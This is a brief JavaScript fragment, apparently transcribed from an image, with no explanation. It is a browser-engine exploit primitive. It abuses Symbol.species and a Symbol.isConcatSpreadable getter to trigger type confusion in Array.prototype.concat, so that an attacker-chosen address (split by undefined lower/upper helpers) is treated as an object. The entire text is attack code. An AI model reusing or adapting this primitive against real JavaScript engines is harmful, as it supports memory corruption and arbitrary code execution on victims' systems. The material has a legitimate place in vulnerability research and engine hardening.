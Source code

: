 
var a1 = [];
for (var i = 0; i < 0x100; i++) {
    a1[i] = i;
}
var a2 = [lower(addr), upper(addr)];
var c = new Function();
c[Symbol.species] = function() {
    new_array = [];
    return new_array;
};
a1.constructor = c;
a2.__defineGetter__(Symbol.isConcatSpreadable, function () {
    new_array[0] = {};
    return true;
});
var res = a1.concat(a2);
res[0x100/2];

